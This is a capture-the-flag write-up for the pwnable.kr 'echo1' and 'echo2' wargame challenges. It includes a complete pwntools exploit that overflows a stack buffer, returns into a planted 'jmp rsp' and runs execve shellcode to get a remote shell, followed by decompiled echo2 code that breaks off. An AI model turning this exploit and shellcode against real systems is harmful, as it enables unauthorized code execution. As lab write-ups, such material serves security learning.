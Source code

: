 # Echo1 (pt25

This program will ask for our name and put it in the *.bss* section(`0x6020A0`). After retrieving out name, it will show a menu for us to chose. We have three option, but only one is effective(the first one). It let use input some chars which lead to a simple buffer overflow.

While it does not enable N^X, we can execute our shellcode on the stack. But the problem is how to get there. Remember the *.bss* section which allows us to write 4 bytes? We can write a `jmp rsp` there. And then, we ret to the *.bss* section to jump to stack. Finally, we can execute our shellcode:
```python
from pwn import *                                                                                 
                                                                                                  
garbage = 40 * "A"       # write grabage data to fill the stack

payload = grabage
payload += p64(0x6020a0) # ret to .bss section which record our first input                                                                          
payload += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x
54\x5e\xb0\x3b\x0f\x05"  # payload from shellstorm

bin = remote("pwnable.kr", 9010)      
id = "\x90\x90\xff\xe4"  # asm code of "jmp rsp; nop; nop"
bin.recvuntil(":")                                                                                
bin.sendline(id)                                                                                  
                                                                                                  
bin.recvuntil(">")                                                                                
bin.sendline("1")                                                                                 
                                                                                                  
bin.recvuntil("hello")                                                                            
bin.sendline(payload)                                                                             
bin.interactive()
```

# echo2 (pt 50)

Overview:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int *v3; // rsi
  _QWORD *v4; // rax
  unsigned int v6; // [rsp+Ch] [rbp-24h]
  __int64 v7; // [rsp+10h] [rbp-20h]
  __int64 v8; // [rsp+18h] [rbp-18h]
  __int64 v9; // [rsp+20h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ", 0LL);
  v3 = (unsigned int *)&v7;
  __isoc99_scanf("%24s", &v7);
  v4 = o;
  *(_QWORD *)o = v7;
  v4[1] = v8;
  v4[2] = v9;
  id = v7;
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
```